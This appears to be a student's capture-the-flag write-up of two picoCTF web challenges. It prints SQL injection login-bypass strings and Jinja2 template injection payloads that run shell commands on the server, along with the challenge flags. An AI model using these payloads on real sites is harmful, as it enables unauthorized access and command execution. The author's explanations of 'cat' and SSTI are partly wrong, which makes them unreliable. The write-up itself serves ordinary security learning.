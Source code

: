 # Challenge 1: Web Gauntlet
In this challenge, a login web page (can't be logined through valid credentials) is given in which we have to exploit the web page by beating given 5 filters.

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## My Approach:
The challenge says that login as an admin into the web page whose link was given. First, I tried simple boolean injections like: ```1=1```, ```1=2``` then some OR injections but they didn't work. Then I thought of using some admin injections as the challenge says login as an admin. I hit and tried the following injections and below mentioned injections worked successfully:
1. ```admin' --```
2. ```admin' /*```
3. ```admin';```

After the third one, none of the admin injections worked, like they were blocked after third injection, so I started with some other injections and then below one again worked. For the fourth and fifth injection, the same one injection worked 

```ad'||'min';```

After all the successful injections, I directly went through the ```filter.php``` webpage and got the flag at the bootom of the webpage.


## My Learnings:
Got to learn different types of SQL Injections and learnt how to inject into a webpage using them.

## Help taken:
Took help from ```chatgpt```, ```invicti``` and ```portswigger``` websites to get to know different types of SQL Injection codes.

## Wrong Tangents:
I was first again and again looking inside the Developers Tool and in cookies section, I was trying to change user to ADMIN in application section as it said Login as admin, which surely I was wrong.



# Challenge 2: SSTI1 
This challenge says that there's a very cool website where we can announce anything, so simply it's asking to exploit his website by doing somethings.

## Flag:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```

## My Approach:
As I opened the webpage, there's given a textbox in which writing anything displays it on the next connecting wwebpage. I started by writing by my name and seeing what actually happens. Then I googled about SSTI, what it is? I came to know that it is called Server-side Template Injection, a web injection to the browser like a cyber attack through  which one can exploit any website by exploiting its vulnerabilities and seek into the hidden or confidential data saved onto the websites.
I searched for some injection codes on google and tried them. I tried below ones:

1. ```{{7*7}}```   (it displayed 49 as its output on next page)
2. ```{{7*'7'}}```   (it displayed 7777777)
3. ```<%= 7*7 %>```  (it displayed <%= 7*7 %>)

Above codes, I got from ```Intigriti``` website.

Then I tried some sophisticated injection codes got on a website named ```YesWeHack``` and the following I tried:
1. ```{{self.__init__.__globals__.__str__()[1786:1788]}}``` (it displayed i)
2. ```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[1786:1788]).read()}}``` (it showed file cannot reached)

I got a doubt as every code displayed something but this one directly showed can't reach. So, I searched about this code and I got to know this is a ```Jinja 2``` template code and by doing some modifications in the injection code I got while scrolling through net, I got below codes:

```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}```  (displays __pycache__ app.py flag requirements.txt)

After it displayed flag, I tried with flag instead of ls, then it again showed can't reach, then I came across a variable modifier ```cat``` which is used to concatenate individual characters to form a string, so I used it before flag and entered this injection code:

```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}```

and it displayed the flag.

## My Learnings:
Got to learn what SSTI is and about it's injection codes and Jinja 2 template for injecting into a website, also got to know about cat variable modifier.

## Reference Websites:
1. Intigriti
2. YesWeHack
3. OWASP
























